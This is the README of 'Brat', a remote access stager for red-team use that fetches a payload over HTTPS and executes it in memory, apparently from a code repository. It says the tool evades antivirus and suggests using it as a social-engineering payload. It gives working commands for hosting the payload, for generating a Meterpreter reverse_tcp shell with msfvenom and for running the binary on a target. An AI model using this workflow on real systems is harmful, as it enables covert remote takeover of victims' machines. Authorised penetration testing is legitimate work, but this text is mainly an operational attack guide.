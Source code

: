 #Brat

A remote access tool for penetration/red team tests. Hosts no malicious code so is not flagged by AV. Useful for physical compromise of a host, as an SE payload, or as an initial stager/dropper.

### Installing

Pre-compiled windows binaries are available in /bin. To build from source you will need Curl and its required libraries. The provided binaries are compiled against the full Curl library available for Windows here https://curl.haxx.se/windows/. Due to this, they are larger than necessary.

Compile scripts are provided to use a starting point.

## Usage

The tool, once executed, makes an HTTPS GET request to a provided web server. The web server hosts the payload you wish to run. The binary loads this payload into memory and then executes it (NX is disabled on the binary). 

Any web server running HTTPS will suffice. A simple HTTPs web server using python is provided in /web-server. You will need to generate a certificate: 
```openssl req -new -x509 -keyout yourpemfile.pem -out yourpemfile.pem -days 365 -nodes ```

In /web-server/html generate your desired payload:
```msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.10.1 lport=4444 -f raw > payload.txt```

Start the web server:
```python3  web.py```

Configure necessary handler/listener for the payload.

Then execute the binary on the target machine. The binary takes two command line options. The first being the webserver/payload and the second 0 or 1. 0 to disable TLS certificate verification and 1 (or any non-zero number) to enable: 

```./a.exe https://your-web-server/payload.txt 0```

## TODO

Build binaries against custom Curl
There is a version which does not use Curl so it is much smaller, only utilizes OpenSSL. Will upload that too.
